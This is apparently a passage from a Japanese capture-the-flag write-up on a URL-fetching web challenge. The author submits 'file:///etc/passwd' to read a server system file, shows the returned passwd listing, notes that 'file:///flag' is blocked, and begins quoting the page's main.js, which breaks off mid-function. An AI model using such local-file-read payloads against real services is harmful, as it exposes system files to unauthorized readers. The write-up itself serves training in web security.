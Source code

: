 与えられた URL にアクセスすると、`※フラグへのアクセスは遮断されます` との注釈付きで URL の入力フォームが表示されました。とりあえず `https://example.com` を入力してみると、以下のような HTML が表示されました。

```html
<div>
    <h1>Example Domain</h1>
    <p>This domain is for use in illustrative examples in documents. You may use this
    domain in literature without prior coordination or asking for permission.</p>
    <p><a href="https://www.iana.org/domains/example">More information...</a></p>
</div>
```

入力した URL にアクセスして返ってきたコンテンツをそのまま表示するようです。ローカルのファイルにアクセスさせることができないか `file:///etc/passwd` を入力すると以下のように表示されました。

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
```

続いて `file:///flag` も試してみましたが `不正なアクセスを検出しました` と怒られてしまいました。どういうことかこのページで読み込まれているスクリプトの `main.js` を見てみましょう。

```javascript
$(function () {
  $('#submit-button').on('click', function () {
    const url = $('#url-input').val()

    $('#error').html('')
    $('#error').removeClass('error')

    $('#url-input').val('')
    $('#content').html('')

    if (!url) {
      $('#error').addClass('error')
      $('#error').html('<p>URLが入力されていません</p>')

      return false
    }

```